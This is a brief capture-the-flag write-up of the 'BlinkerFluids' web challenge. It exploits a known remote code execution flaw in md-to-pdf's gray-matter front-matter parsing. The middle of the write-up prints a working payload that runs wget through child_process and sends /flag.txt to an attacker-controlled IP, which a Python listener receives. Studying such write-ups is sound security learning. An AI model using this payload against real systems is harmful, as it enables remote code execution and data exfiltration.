


# [Web] Blinker Fuild

BlinkerFluids is a web application that allows for its users to create an application in `Markdown`. Since we got access to the source code, we know that the library `md-to-pdf` is in use. After some searching, we find out that its dependency to `gray-matter` makes it dependent to a [Remote Code Execution](https://github.com/simonhaenisch/md-to-pdf/issues/99) vulnerability.

Seems promising, let’s try it out!
We use the payload:

```
---js
((require("child_process")).execSync("wget -q http://1.2.3.4:4444/?aaa=$(cat /flag.txt)"))
---
RCE
```



On the `python -m http.server 4444` server setup, we do receive the callback:



The flag is:

```
HTP{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
